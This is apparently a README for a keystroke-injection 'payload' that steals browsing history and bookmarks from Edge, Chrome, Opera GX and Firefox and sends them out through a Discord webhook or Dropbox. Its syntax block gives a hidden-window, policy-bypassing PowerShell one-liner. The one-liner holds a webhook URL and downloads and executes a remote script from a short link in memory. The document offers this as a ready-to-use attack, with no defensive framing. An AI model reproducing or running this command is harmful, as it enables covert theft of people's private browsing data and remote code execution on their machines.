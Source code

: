 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>
## Description

This payload can be used to retrieve the browsing history and bookmarks from Edge, Chrome, Opera GX, and Firefox (no bookmarks from firefox currently).

They are then exfiled using either Discord or Dropbox.

## The Function

### [Get-BrowserData] 

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* You no longer need to host your own version of this script
* $db is the variable that holds your DropBox token
* $dc is the variable that holds your Discord webhook
* Fill in either variable or both to set your exfil method

SYNTAX:

```
powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1092997498089521183/ZzWeOZRzAfNWtqXfzLDv47DMWokwf-yMbhL-px977t0sqqTGDuT9YmI27cIKRrxF9Tza';irm tinyurl.com/browserData1 | iex
```
